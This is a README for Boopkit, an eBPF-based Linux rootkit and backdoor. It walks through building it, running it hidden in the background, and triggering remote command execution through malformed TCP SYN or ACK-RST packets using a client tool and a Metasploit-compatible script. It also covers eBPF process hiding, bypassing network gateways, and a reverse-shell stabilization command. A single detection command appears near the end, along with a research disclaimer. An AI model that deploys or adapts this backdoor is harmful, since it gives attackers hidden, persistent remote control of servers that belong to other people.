 ```
================================================================

   ██████╗  ██████╗  ██████╗ ██████╗ ██╗  ██╗██╗████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗██╔══██╗██║ ██╔╝██║╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║██████╔╝█████╔╝ ██║   ██║   
   ██╔══██╗██║   ██║██║   ██║██╔═══╝ ██╔═██╗ ██║   ██║   
   ██████╔╝╚██████╔╝╚██████╔╝██║     ██║  ██╗██║   ██║   
   ╚═════╝  ╚═════╝  ╚═════╝ ╚═╝     ╚═╝  ╚═╝╚═╝   ╚═╝   
   Author: Kris Nóva <kris@nivenly.com> Version 1.3.0
   
   IN NO EVENT SHALL THE COPYRIGHT OWNER OR CONTRIBUTORS BE 
   LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, 
   EXEMPLARY, OR CONSEQUENTIAL DAMAGES.   

   DO NOT ATTEMPT TO USE THE TOOLS TO VIOLATE THE LAW.
   THE AUTHOR IS NOT RESPONSIBLE FOR ANY ILLEGAL ACTION.
   MISUSE OF THE SOFTWARE, INFORMATION, OR SOURCE CODE
   MAY RESULT IN CRIMINAL CHARGES.
   
   Use at your own risk.

================================================================

Boopkit
Linux rootkit and backdoor. Built using eBPF.

Usage: 
boopkit [options]

Options:
-h, help           Display help and usage for boopkit.
-i, interface      Interface name. lo, eth0, wlan0, etc
-s, sudo-bypass    Bypass sudo check. Breaks PID obfuscation.
-r, reverse-conn   Attempt a reverse RCE lookup if no payload found.
-q, quiet          Disable output.
-x, reject         Source addresses to reject triggers from.

```

Linux backdoor, rootkit, and eBPF bypass tools.
Remote command execution over raw TCP.

 - Tested on Linux kernel 5.16
 - Tested on Linux kernel 5.17
 - Remote code execution over TCP (SSH, Nginx, Kubernetes, etc)
 - Network gateway bypass (bad checksums, TCP reset)
 - Self obfuscation at runtime (eBPF process hiding)

##### Disclaimer

> This is **NOT** an exploit! This requires prior privileged access on a server in order to work!
> I am a professional security researcher. These are white hat tools used for research purposes only.
> Use this responsibly. Never use this software illegally.

## Server Side

Download and build boopkit.

```bash
wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.3.0.tar.gz
tar -xzf v1.3.0.tar.gz 
cd boopkit-1.3.0/
make
sudo make install
```

Run boopkit in the foreground. 

```bash 
# Reject all boops on localhost and 10.0.0.1
boopkit -x 127.0.0.1 -x 10.0.0.1
```

Run boopkit in the background in quiet mode.

```bash 
# Danger! This can be VERY hard to stop! Run this at your own risk!
boopkit -q &
```

Boopkit is now running and can be exploited using the client `boopkit-boop` command line tool.

## Client Side

Download and build boopkit.

```bash
wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.2.0.tar.gz
tar -xzf v1.2.0.tar.gz 
cd boopkit-1.2.0/
make
sudo make install
```
Run boopkit-boop against the server.

```bash 
# ===================
RCE="ls -la"
# ===================
LHOST="127.0.0.1"
LPORT="3535"
RHOST="127.0.0.1"
RPORT="22"
boopkit-boop \
  -lhost $LHOST \
  -lport $LPORT \
  -rhost $RHOST \
  -rport $RPORT \
  -c "$RCE"
```

# Boop Vectors

Boopkit will respond to various events on the network. Both of which can be triggered with the `boopkit-boop` tool.

TCP Header Format. Taken from [RFC 793](https://datatracker.ietf.org/doc/html/rfc793#section-3.1). September 1981
```
        0                   1                   2                   3
        0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |          Source Port          |       Destination Port        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                        Sequence Number                        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                    Acknowledgment Number                      |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |  Data |           |U|A|P|R|S|F|                               |
       | Offset| Reserved  |R|C|S|S|Y|I|            Window             |
       |       |           |G|K|H|T|N|N|                               |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |           Checksum            |         Urgent Pointer        |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       |                    Options                    |    Padding    |
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
       {                             data                              }
       {                             ....                              }
       {                             data                              }
       +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### 1. Bad Checksum

First the `boopkit-boop` tool will send a malformed TCP SYN packet with an empty checksum to the server over a `SOCK_RAW` socket. This will trigger `boopkit` remotely regardless of what TCP services are running. This works against any Linux server running boopkit, regardless of the state of TCP services.

Use `-p` with `boopkit-boop` to only use this first vector.

⚠️ Some modern network hardware will DROP all malformed checksum packets such as the one required to exploit boopkit using this vector!

### 2. Sending ACK-RST packet

Next the `boopkit-boop` tool will complete a valid TCP handshake with a `SOCK_STREAM` socket against a remote TCP service such as SSH, Kubernetes, Nginx, etc. After the initial TCP handshake is complete, `boopkit-boop` will repeat the process a 2nd time.
The 2nd handshake will flip the TCP reset flag in the packet, trigger a TCP reset on the server.

Either of these tactics are enough to independently trigger boopkit.
Various network hardware and runtime conditions will make either tactic more viable.
Boopkit will try both, by default.

# Boopscript

The `boopscript` file is a [Metasploit](https://github.com/rapid7/metasploit-framework) compatible script that can be used to remotely trigger the boopkit backdoor after `boopkit-boop` is installed locally.

```bash
RHOST="127.0.0.1"
RPORT="22"
LHOST="127.0.0.1"
LPORT="3535"

NCAT="/usr/bin/ncat"
NCATLISTENPORT="3545"
```

### Compile Time Dependencies 

 - 'clang' 
 - 'bpftool'   Required for `libbpf`
 - 'xdp-tools' Required for `libxdp`
 - 'llvm'
 - 'pcap'
 - 'lib32-glibc'

### Reverse Shell Stabilization

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

### Detection with no extra tools

```dmesg | grep "bpf.*\!$"```

The potential memory corruption is not insignificant, observed prevention of shutdown and normal root shell! 

### References

 - [Tracepoints with BPF](https://lwn.net/Articles/683504/)
 - [Raw TCP Sockets](https://github.com/MaxXor/raw-sockets-example)
 - [Bad BPF](https://github.com/pathtofile/bad-bpf)

Credit to the original authors for their helpful code samples! I forked a lot of code for this project! 
